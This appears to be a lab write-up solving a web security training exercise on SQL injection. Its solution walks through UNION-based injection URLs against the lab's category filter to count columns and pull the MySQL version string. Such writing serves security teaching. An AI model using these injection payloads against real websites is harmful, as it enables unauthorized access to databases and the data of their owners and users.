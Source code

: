 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

## Solution
Once again we have to determine the amount of columns and find the text columns:
```
https://0a5f00bf03e42b6b8073bcee0061009d.web-security-academy.net/filter?category=Gifts%27+union+select+null,null+--+
```

```
https://0a5f00bf03e42b6b8073bcee0061009d.web-security-academy.net/filter?category=Gifts%27+union+select+%27ab%27,%27cd%27+--+
```

Seems pretty similar to the structure before. To get the version of a MySQL database we run the following:
```
https://0a5f00bf03e42b6b8073bcee0061009d.web-security-academy.net/filter?category=Gifts%27+union+select+null,@@version+--+
```

This will create a query like this:
```sql
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT NULL,@@version -- 
```

In the response we get our version and solved the lab:
```
[...]
8.0.32-0ubuntu0.20.04.2
```
